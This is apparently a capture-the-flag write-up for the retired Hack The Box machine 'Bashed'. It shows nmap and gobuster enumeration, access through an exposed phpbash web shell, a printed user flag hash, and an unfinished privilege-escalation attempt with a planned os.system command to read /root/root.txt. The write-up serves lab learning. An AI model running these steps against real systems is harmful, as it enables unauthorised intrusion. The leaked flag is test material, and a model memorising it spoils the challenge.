


# MACHINE CHALLENGE: BASHED

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.68
OS: Linux
```

### NAME OF THE MACHINE AS A HINT?

Something about bash script vulnerability?

### PORTSCANNING w/ NMAP

Use `nmap` to see if we can detect what services our host is offering, what
operating system (and version) our host is running, what type of packet
filters/firewalls are in use, etc.

```
$ sudo nmap -A -sS -T4 10.10.10.68 > nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-19 23:44 EST
Nmap scan report for 10.10.10.68
Host is up (0.45s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

So we have 1 open service running - http(80) - Apache httpd 2.4.18 on Ubuntu.

### ENUMERATING PORT 80 (HTTP)

Visiting the webpage we see something called 'Arrexel's Development Site':

```
http://10.10.10.68
```



##### GOBUSTER

Bruteforce enumeration using `gobuster` yields..

```
$ gobuster -e -u 10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://10.10.10.68/images (Status: 301)
http://10.10.10.68/uploads (Status: 301)
http://10.10.10.68/php (Status: 301)
http://10.10.10.68/css (Status: 301)
http://10.10.10.68/dev (Status: 301)
http://10.10.10.68/js (Status: 301)
http://10.10.10.68/fonts (Status: 301)
```

Poking through each of the discovered directories..

```
/dev/phpbash.min.php
/dev/phpbash.php
/css/carouFredSel.css
/css/clear.css
/css/common.css
/css/font-awesome.min.css
/css/sm-clean.css
/php/sendMail.php
/uploads
/images/ajax-document-loader.gif
/images/arrow.png
/images/favicon.png
/images/logo.png
```

##### PHPBASH.PHP

Reading through some of the scripts, came across `/dev/phpbash.php` that
seemed interesting (around line 102):

```
 <script type="text/javascript">
            var username = "";
            var hostname = "";
            var currentDir = "";
            var commandHistory = [];
            var currentCommand = 0;
            var inputTextElement = document.getElementById('inputtext');
            var outputElement = document.getElementById("output");
            var usernameElement = document.getElementById("username");
            getShellInfo();
            
            function getShellInfo() {
                var request = new XMLHttpRequest();
```

Loading this script appears to give us a session on the machine????

```
http://10.10.10.68/dev/phpbash.php
```



### OWN USER

Using the `phpbash.php` script as a session into the machine:

```
www-data@bashed :/var/www/html/dev# cd /home
www-data@bashed :/home# ls
arrexel
scriptmanager
www-data@bashed :/home# cd arrexel
www-data@bashed :/home/arrexel# ls
user.txt
www-data@bashed :/home/arrexel# cat user.txt
2c281f318555dbc1b856957c7147bfc1
```

### OWN MACHINE

On the machine, there is a directory called `/scripts` which stands out as an
area of interest as it has a `test.py` script owned by user `scriptmanager`
and a `test.txt` file owned by `root`. Wonder if we can some how use this
setup to copy the `/root/root.txt` file out to a place we can access?

```
www-data@bashed :/# ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 /scripts
www-data@bashed :/# sudo -u scriptmanager ls -la /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 .
drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Dec 19 21:32 test.txt
www-data@bashed :/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
www-data@bashed :/# sudo -u scriptmanager python /scripts/test.py
cat: /root/root.txt.txt: Permission denied
```

Hm.. so I'm stuck.  What I don't know is how to:
1. edit the `test.py` to have the commands I want (e.g. cat /root/root.txt)
```
  import os
  os.system('cat /root/root.txt.txt >> test.txt')
```
2. execute the script with root priviledges

### RETIRED

```
https://medium.com/pentestsec/bashed-bd7804081ae5
```

Seems like the final steps was to:

1. Realize that there is a cronjob that runs any Python script in /scripts
2. Upload a Python script to trigger a reverse shell and wait for it to be run
